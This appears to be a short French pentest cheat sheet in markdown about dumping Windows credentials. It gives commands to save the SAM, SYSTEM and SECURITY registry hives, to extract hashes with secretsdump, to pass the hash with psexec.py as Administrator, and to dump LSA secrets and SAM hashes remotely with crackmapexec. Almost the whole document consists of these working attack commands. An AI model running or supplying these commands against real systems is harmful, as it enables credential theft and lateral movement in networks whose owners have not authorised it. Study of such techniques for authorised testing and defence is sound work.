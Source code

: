 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Sauvegarde des credentials quand on est system
```shell
reg save hklm\sam sam.save
reg save hklm\system system.save
reg save hklm\security security.save
```

```
secretdump.py local -sam sam.save -security security.save -system system.save LOCAL
```

``` shell 
psexec.py Administratur@$TARGET_IP -hashes xxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxx
# ou
psexec.py Administratur@$TARGET_IP -hashes :xxxxxxxxxxxxxxxxxxxxxxx
```

## Dump à distance 

```
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --lsa
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --sam
```